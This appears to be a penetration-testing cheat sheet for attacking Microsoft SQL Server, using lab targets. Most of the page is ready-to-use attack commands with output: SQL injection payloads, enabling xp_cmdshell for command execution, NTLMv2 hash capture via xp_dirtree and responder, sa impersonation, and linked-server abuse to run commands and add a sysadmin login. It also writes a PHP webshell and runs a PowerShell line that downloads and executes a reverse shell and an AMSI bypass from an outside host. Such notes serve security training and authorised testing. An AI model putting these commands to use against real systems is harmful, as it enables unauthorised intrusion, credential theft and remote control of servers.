


---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# MSSQL (1433)

## 101

### Authentication

<table><thead><tr><th width="133.33331298828125">Mode</th><th>Description</th></tr></thead><tbody><tr><td><code>Windows authentication mode</code></td><td>This is <strong>the default</strong>, often referred to as <code>integrated</code> security because the SQL Server security model is tightly integrated with Windows/Active Directory. Specific Windows user and group accounts are trusted to log in to SQL Server. Windows users who have already been authenticated do not have to present additional credentials.</td></tr><tr><td><code>Mixed mode</code></td><td>Mixed mode supports authentication by Windows/Active Directory accounts and SQL Server. Username and password pairs are maintained within SQL Server.</td></tr></tbody></table>

### Schemas

In SQL Server, each table belongs to a specific schema (e.g., `dbo`, `sales`, `hr`, etc.). If you do not specify a schema, SQL Server assumes `dbo` by default.


```sql
SELECT * from flags;
// ('42S02', "[42S02] [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Invalid object name '#flags'. (208) (SQLExecDirectW)")

# Specify the database context explicitly
SELECT * from app.dbo.flags;
```


Below are the default MSSQL system schemas:

<table><thead><tr><th width="126" align="right">Schema</th><th>Description</th></tr></thead><tbody><tr><td align="right">master</td><td>Keeps the information for an instance of SQL Server</td></tr><tr><td align="right">msdb</td><td>Used by SQL Server Agent</td></tr><tr><td align="right">model</td><td>Template database copied for each new database</td></tr><tr><td align="right">resource</td><td>Read-only, keeps sys objects visible in every server database in sys schema</td></tr><tr><td align="right">tempdb</td><td>Keeps temporary objects for SQL queries</td></tr></tbody></table>

### Users

`sa` is the default administrator-level account in MSSQL.

### Syntax



```sql
SELECT @@version;
```



```sql
# Current user
SELECT system_user;

# DB users
select name,sysadmin from syslogins;
```



```sql
# List databases
SELECT name FROM sys.databases;

# Use the specified database
USE <database>;
```



```sql
SELECT * FROM <database>.information_schema.tables;
```




```sql
SELECT column_name, data_type FROM <database>.information_schema.columns WHERE table_name = '<tableName>';
```




```sql
select name,sysadmin from syslogins;
```




When querying from a CLI tool, a SQL statement must be submitted ending with `;` followed by a `GO` on a separate line.


### CLI Tools



Alternative to `sqlcmd` for Linux (`-h` disables headers & footers for a cleaner output):

```bash
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
```

If we define the domain or hostname, it will use **Windows authentication**. If we don't, it will assume **SQL Authentication** and authenticate against the users created in the SQL server.

```bash
# Authenticating with a local account
sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h
```

Impacket script:

```
impacket-mssqlclient <domain>/<user>:<pass>@<target> -windows-auth
```



Native Windows tool:

```sh
sqlcmd -U <username> -P '<password>' -Q '<query1;query2;>' 
```

We can use the params `-y` (`SQLCMDMAXVARTYPEWIDTH`) and `-Y` (`SQLCMDMAXFIXEDTYPEWIDTH`) for better looking output (may affect performance):

```shell
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```

If we use `sqlcmd`, we will need to use `GO` after our query to execute the SQL syntax:

```sql
# List existing databases
1> SELECT name FROM master.dbo.sysdatabases
2> GO

# Select database
1> USE htbusers
2> GO

# List tables
1> SELECT table_name FROM htbusers.INFORMATION_SCHEMA.TABLES
2> GO

# Dump data
1> SELECT * FROM users
2> GO
```



## Attacks

### Context Change

When executing OS-level commands via `xp_cmdshell`, the commands run in the <mark style="background-color:yellow;">security context of the SQL Server service account:</mark>

```sql
>EXEC xp_cmdshell 'whoami';
---------------------------
nt service\mssql$db_public
```

SQL Server supports executing external R or Python scripts through the `sp_execute_external_script` stored procedure. These scripts run under a separate runtime and can have <mark style="background-color:yellow;">different OS-level execution contexts</mark>, potentially with higher privileges:

```sql
-- Enable external scripting feature
> EXEC sp_configure 'external scripts enabled', 1;
> RECONFIGURE;

-- Execute a Python payload
> EXEC sp_execute_external_script
    @language = N'Python',
    @script = N'import os; os.system("whoami")';
...
compatibility\db_public01
```

### SQLi



```bash
q=anger' ORDER BY 1;--
q=anger' UNION SELECT NULL;--
q=anger' UNION SELECT 1;--
```



```bash
q=anger1' UNION SELECT 'a',2,3,4,5,6;-- -
```




```bash
# check connection back with nc on port 445, and then responder
q=anger1'; exec dir_tree '\\<attack-ip>\\sharename\file'--
```





```bash
# first connection
sudo nc -lvnp 445
listening on [any] 445 ...
connect to [10.10.14.121] from (UNKNOWN) [10.10.11.158] 50883
E�SMBrS�����"NT LM 0.12SMB 2.002SMB 2.???^C
# second connection
sudo responder -I tun0
<SNIP>
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.10.11.158
[SMB] NTLMv2-SSP Username : streamIO\DC$
[SMB] NTLMv2-SSP Hash     : DC$::streamIO:c45d729b18399cdd:DC47BA38B0757F30605D68A6D5B969FE:0101000000000000803B7DFBB994DA011011EEA196276E730000000002000800410043004F00410001001E00570049004E002D005500500046004200320059003900580030005400520004003400570049004E002D00550050004600420032005900390058003000540052002E00410043004F0041002E004C004F00430041004C0003001400410043004F0041002E004C004F00430041004C0005001400410043004F0041002E004C004F00430041004C0007000800803B7DFBB994DA0106000400020000000800300030000000000000000000000000300000EC58810B0121088E8266094DE4E2D0B2340D33D1D6BE1317A3BA66F26DE4CFBE0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100320031000000000000000000
```




```bash
# wildcards in MSSQL
SELECT * FROM movies WHERE name LIKE '%anger%';
SELECT * FROM movies WHERE CONTAINS (name,'*500*');
```





```bash
q=anger1' UNION SELECT 1,@@version,3,4,5,6;--
```



```bash
q=anger1' UNION SELECT 1,name,3,4,5,6 FROM master..sysdatabases--
q=anger1' UNION SELECT 1,name,3,4,5,6 FROM sys.databases--
```




```bash
q=anger1' UNION SELECT 1,CONCAT(name,':',id),3,4,5,6 FROM streamio..sysobjects--
```





```bash
q=anger1' UNION SELECT 1,name,3,4,5,6 FROM streamio..syscolumns WHERE id=901578250--
```





```bash
q=anger1' UNION SELECT 1,(SELECT STRING_AGG(CONCAT(username,':',password),'|') FROM users),3,4,5,6--
```




### RCE


RCE via `xp_cmdshell` can also be achieved via [`nxc mssql`](../../../../tl-dr/active-directory/ad-tools/netexec.md#mssql).


In MSSQL, the `xp_cmdshell` function allows <mark style="background-color:yellow;">execution of system commands</mark> from SQL by passing a string to the command shell and returning the output as text rows. It operates synchronously—control returns only after the command completes—and runs with the <mark style="background-color:yellow;">same permissions as the SQL Server service account</mark>. Due to its power and potential for abuse, `xp_cmdshell` is <mark style="background-color:yellow;">disabled by default</mark> and can be enabled or disabled using Policy-Based Management or the `sp_configure` command. Functions like this, which can lead to remote code execution (RCE), are typically restricted to privileged users, and exploiting them via a SQL injection (SQLi) vulnerability usually requires the use of stacked queries.


The Linux version of MSSQL does not support `xp_cmdshell`.


```sql
# Allow advanced options to be modified
EXECUTE sp_configure 'show advanced options', 1;  
GO
# Update currently configured value for advanced options
RECONFIGURE;  
GO 
# Enable the feature
EXECUTE sp_configure 'xp_cmdshell', 1;  
GO 
# Update the currently configured value for this feature
RECONFIGURE;  
GO
# Use feature
EXECUTE xp_cmdshell '<system-command>';
```

### Hash Capture

In MSSQL, it's possible to capture the SQL Server service account's NTLMv2 hash using the undocumented stored procedures `xp_dirtree` or `xp_subdirs`, which leverage the SMB protocol to list directories. By pointing one of these procedures to an attacker-controlled SMB server, the server running SQL Server is tricked into authenticating and sends its NTLMv2 hash. To perform this, tools like `responder` or `impacket-smbserver` must be started first, followed by executing a crafted query that triggers the SMB request.


```sql
# xp_dirtree
1> EXEC xp_dirtree '\\10.10.110.17\share\'
2> GO

subdirectory    depth
--------------- -----------

# xp_subdirs
1> EXEC xp_subdirs '\\10.10.110.17\share\'
2> GO

HResult 0x55F6, Level 16, State 1
xp_subdirs could not access '\\10.10.110.17\share\*.*': FindFirstFile() returned error 5, 'Access is denied.'
```


If the service account has access to our server, we will obtain its hash:


```shell
# Capture the hash with responder
$ sudo responder -I tun0
...
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.10.110.17
[SMB] NTLMv2-SSP Username : SRVMSSQL\demouser
[SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:5e3...000

# Capture the hash with Impacket
# hash stealing with impacket
$ sudo impacket-smbserver share ./ -smb2support
...                     
[*] demouser::WIN7BOX:5e3...000
```


We can then attempt to crack it or relay it to another host.

### User Impersonation

SQL Server includes a special permission called `IMPERSONATE`, which allows a user to assume the permissions of another user or login until the session ends or the context is reset. While sysadmins can impersonate any user by default, non-admin users require explicit permission to do so. To identify which users can be impersonated, a specific query can be run to check assigned impersonation rights:


```sql
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
GO;

name
-----------------------------------------------
sa
ben
valentin

(3 rows affected)
```


To get an idea of privilege escalation possibilities, check if the current user has the `sysadmin` role:


```sql
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go

-----------
julio                                                                                                                    

(1 rows affected)

-----------
          0

(1 rows affected)
```


As the return value `0` indicates, we do not have the `sysadmin` role, but we can impersonate the `sa` user. To impersonate a user, we can use the Transact-SQL statement `EXECUTE AS LOGIN` and set it to the user we want to impersonate:


It is recommended to run `EXECUTE AS LOGIN` within the master database (`USE master`), because all users, by default, have access to that database. If a user you are trying to impersonate does not have access to the database you are connecting to it will result in an error.


```sql
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO

-----------
sa

(1 rows affected)

-----------
          1

(1 rows affected)
```

We can now execute any command as a `sysadmin`. To revert the operation and return to our previous user, we can use the Transact-SQL statement `REVERT`.

> If we find a user who is not `sysadmin`, we can still check if the user has access to other databases or linked servers.

### Linked Servers

MSSQL supports a configuration option called [**linked servers**](https://docs.microsoft.com/en-us/sql/relational-databases/linked-servers/create-linked-servers-sql-server-database-engine), which allows the database engine to run Transact-SQL queries across different SQL Server instances or even other database systems like Oracle. If an attacker gains access to a SQL Server with linked servers configured, this can potentially be used for lateral movement. Admins may configure linked servers using credentials from the remote server, and if those credentials have `sysadmin` privileges, it may be possible to execute commands on the remote SQL instance.

<figure><figcaption></figcaption></figure>



Identify linked servers from the current server (`1` → remote server, `0` → linked server):


```sql
# Enumerate linked servers
SELECT * FROM master...sysservers
SELECT * FROM openquery("dcorp-sql1",'select * from master..sysservers')
SELECT srvname, isremote FROM sysservers

srvname                             isremote
----------------------------------- --------
COMPATIBILITY\DB_PUBLIC             1
COMPATIBILITY\DB_CONFIG             0

# Enumerate linked chains
select * from openquery("dcorp-sql1",'select * from openquery("dcorpmgmt",''select * from master..sysservers'')')
```


Enumerate the user used for the connection and their privileges. The `EXECUTE` statement can be used to send pass-through commands to linked servers. The target command is added between parenthesis and the linked server is specified between square brackets:


If we need to use quotes in our query to the linked server, we need to **use single double quotes** to escape the single quote. To run multiple commands at once we can divide them up with a `;`.



```sql
# Enumerate the user and its privileges
> EXECUTE('SELECT @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [COMPATIBILITY\DB_CONFIG]

# List the linked server's databases
> EXECUTE('SELECT name FROM sys.databases;') AT [COMPATIBILITY\DB_CONFIG]
```


The executed queries on the linked server will run as `sysadmin`. Next, database data can be read from any database or system commands can be executed with `xp_cmdshell`. Sometimes linked servers are cyclical, e.g. `DB_CONFIG` is a linked server for `DB_PUBLIC` and vice versa:


```sql
// Identify linked servers
> SELECT srvname, isremote FROM sysservers
srvname                    isremote
------------------------   --------
COMPATIBILITY\DB_PUBLIC          1
COMPATIBILITY\DB_CONFIG          0

// Check if the linked server has other linked servers
> EXECUTE('SELECT srvname,isremote from sysservers;') AT [COMPATIBILITY\DB_CONFIG]
srvname                    isremote
------------------------   --------
COMPATIBILITY\DB_CONFIG          1
COMPATIBILITY\DB_PUBLIC          0
```


<figure><figcaption></figcaption></figure>

In this case, the account on the linked server might have elevated privileges on our current server:


```sql
// Enumerate linked server user
> EXECUTE('SELECT current_user;') AT [COMPATIBILITY\DB_CONFIG]
-------------
internal_user

// List privileges on the linked server
> EXECUTE('SELECT name,sysadmin from syslogins;') AT [COMPATIBILITY\DB_CONFIG]
name            sysadmin
-------------   --------
sa                     1
internal_user          0

// List privileges of the linked account on the current server
> EXEC ('EXEC (''SELECT suser_name()'') AT [COMPATIBILITY\DB_PUBLIC]') AT [COMPATIBILITY\DB_CONFIG];
--
sa
```


Based on the above output, `internal_user` has `sa` rights on `DB_PUBLIC`. This can be leveraged for RCE directy using nested queries:


```sql
>EXEC ('EXEC (''EXEC sp_configure ''''show advanced options'''', 1'') AT [COMPATIBILITY\DB_PUBLIC]') AT [COMPATIBILITY\DB_CONFIG]; EXEC ('EXEC (''RECONFIGURE'') AT [COMPATIBILITY\DB_PUBLIC]') AT [COMPATIBILITY\DB_CONFIG]; EXEC ('EXEC (''EXEC sp_configure ''''xp_cmdshell'''', 1'') AT [COMPATIBILITY\DB_PUBLIC]') AT [COMPATIBILITY\DB_CONFIG]; EXEC ('EXEC (''RECONFIGURE'') AT [COMPATIBILITY\DB_PUBLIC]') AT [COMPATIBILITY\DB_CONFIG]; EXEC ('EXEC (''EXEC xp_cmdshell ''''whoami'''''') AT [COMPATIBILITY\DB_PUBLIC]') AT [COMPATIBILITY\DB_CONFIG];
...
output
---------------------------
nt service\mssql$db_public
```


...or by first adding a new admin user on `DB_PUBLIC` and then using that account:


```sql
>EXEC ('EXEC (''EXEC sp_addlogin ''''super'''', ''''abc123!'''''') at [COMPATIBILITY\DB_PUBLIC]') at [COMPATIBILITY\DB_CONFIG]; EXEC ('EXEC (''EXEC sp_addsrvrolemember ''''super'''', ''''sysadmin'''''') at [COMPATIBILITY\DB_PUBLIC]') at [COMPATIBILITY\DB_CONFIG];
```


For RCE, either `xp_cmdshell` should be already enabled or if `rpcout` is enabled (disabled by default), `xp_cmdshell` can be enabled manually:

```sql
>EXEC('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
```



[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) is a PowerShell toolkit for discovering, auditing, and attacking SQL Servers in Active Directory environments during internal pentests and red team operations.

Enumerate MSSQL servers, access, and server information:

```powershell
# Discover MSSQL servers (SPN scanning instead of port scanning)
Get-SQLInstanceDomain

# Check access
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose

# Gather server information
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

Enumerate linked servers:


```powershell
# Enumerate if a specific instance is linked to other servers
Get-SQLServerLink -Instance dcorp-mssql -Verbose

# Enumerate linked chains
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
```


For RCE, either `xp_cmdshell` should be already enabled or if `rpcout` is enabled (disabled by default), `xp_cmdshell` can be enabled manually:

```sql
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
```

The `Query` and `QueryTarget` parameters can be used. Without the latter, it will try to use `xp_cmdshell` on every link of the chain:


```powershell
# This will run the query on all chain links
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'cmd /c set username'"

# This will target only the specific instance
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'cmd /c set username'" -QueryTarget EU-SQL23

# RevShell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.37/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://172.16.100.37/amsibypass.txt);iex (iwr -UseBasicParsing http://172.16.100.37/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget eu-sql23
```




### Write Files

To write file in MSSQL, we need to enable [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option), which requires admin rights, and then execute some stored procedures to create the file:


```sql
# Enable Ole Automation Procedures
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO

# Create a file
> DECLARE @OLE INT; DECLARE @FileID INT; EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT; EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1; EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'; EXECUTE sp_OADestroy @FileID; EXECUTE sp_OADestroy @OLE; GO
```


### Read Files

By default, MSSQL allows file read on any file in the OS to which the account has read access:


```sql
# Read local file
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```


## To Be Added

[https://github.com/quentinhardy/msdat](https://github.com/quentinhardy/msdat)

## Resources














